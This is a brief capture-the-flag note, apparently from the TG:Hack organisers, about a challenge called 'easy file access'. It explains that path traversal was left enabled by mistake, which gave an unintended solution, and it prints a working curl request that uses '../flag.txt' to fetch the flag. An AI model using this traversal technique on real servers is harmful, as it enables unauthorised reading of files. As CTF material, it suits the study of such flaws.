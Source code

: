 # easy file access

This ended up being a unintended solution, path traversal was turned on and a simple exploit like

`curl -g --path-as-is "http://easy-file-access.tghack.no:1337/uploads/../flag.txt"` worked.

We reduced this challenge's points and released easy-file-access 2 where the real exploit is explained
